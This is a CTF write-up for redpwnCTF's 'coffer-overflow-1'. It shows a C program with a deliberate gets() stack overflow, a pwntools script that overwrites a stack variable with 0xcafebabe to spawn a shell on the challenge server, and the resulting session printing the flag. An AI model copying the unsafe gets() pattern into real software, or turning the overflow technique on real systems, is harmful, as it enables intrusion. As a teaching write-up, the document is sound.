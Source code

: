 # coffer-overflow-1
Author: [UltimateHG](https://github.com/UltimateHG)
### Slightly more advanced
This is a continuation of [coffer-overflow-0](https://github.com/CSGang/Writeups/tree/master/redpwnCTF/pwn/coffer_overflow_0).
We take a look at the source code:
```
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```
<br>
This time, we would need to not only overwrite `code`, but also overwrite it with value `0xcafebabe` in little endian.
We use the same approach as before, with a padding of 32-8 = 24 characters followed by `0xcafebabe` in little endian.
<br>
Here is the final exploit:

```
#!/usr/bin/env python

from pwn import *

e = ELF("./coffer-overflow-1")
p = remote("2020.redpwnc.tf", 31255)

print(p.recvline())
print(p.recvline())
payload = b"A"*24
payload += p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

This should redirect us to shell, and we with a simple `ls` we can see an entry `flag.txt`, so we simply do `cat flag.txt` to obtain the flag:
```
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```
